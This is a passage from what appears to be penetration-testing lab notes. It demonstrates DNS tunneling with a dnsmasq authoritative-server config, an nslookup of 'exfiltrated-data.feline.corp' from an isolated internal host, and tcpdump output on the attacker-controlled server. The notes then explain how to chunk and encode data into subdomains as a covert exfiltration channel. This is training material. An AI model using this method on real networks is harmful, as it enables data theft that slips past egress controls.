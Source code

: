 {% tabs %}
{% tab title="1. Authoritative NS Config" %}
```bash
# the DNS configuration on FELINEAUTHORITY 
kali@felineauthority:~/dns_tunneling$ cat dnsmasq.conf
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp
```
{% endtab %}

{% tab title="2. DNS Query" %}
{% code overflow="wrap" %}
```bash
# PGDATABASE01 querying about the URL and the response received from the Authoritative Name Server (FELINEAUTHORITY)
database_admin@pgdatabase01:~$ nslookup exfiltrated-data.feline.corp
Server:		127.0.0.53
Address:	127.0.0.53#53

** server can't find exfiltrated-data.feline.corp: NXDOMAIN
```
{% endcode %}
{% endtab %}

{% tab title="3. Authoritative NS Logs" %}
{% code overflow="wrap" %}
```bash
# the Authoritative Name Server logs (FELINEAUTHORITY)
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
04:57:40.721682 IP 192.168.50.64.65122 > 192.168.118.4.domain: 26234+ [1au] A? exfiltrated-data.feline.corp. (57)
04:57:40.721786 IP 192.168.118.4.domain > 192.168.50.64.65122: 26234 NXDomain 0/0/1 (57)
```
{% endcode %}
{% endtab %}
{% endtabs %}

In the above scenario, an arbitrary DNS query from an internal host with no other outbound connectivity (`PGDATABASE01`) has found its way to an external server we control (`FELINEAUTHORITY`). This makes DNS a potential **covert channel for exfiltration**. Data can be split into chunks, converted to a safe format like hexadecimal or Base64, and sent via the subdomain part of DNS queries (e.g.,`chunk1` on `chunk1.feline.corp`). The authoritative server logs these and reconstructs the data.

## Data Infil Theory <a href="#data-infil-theory" id="data-infil-theory"></a>
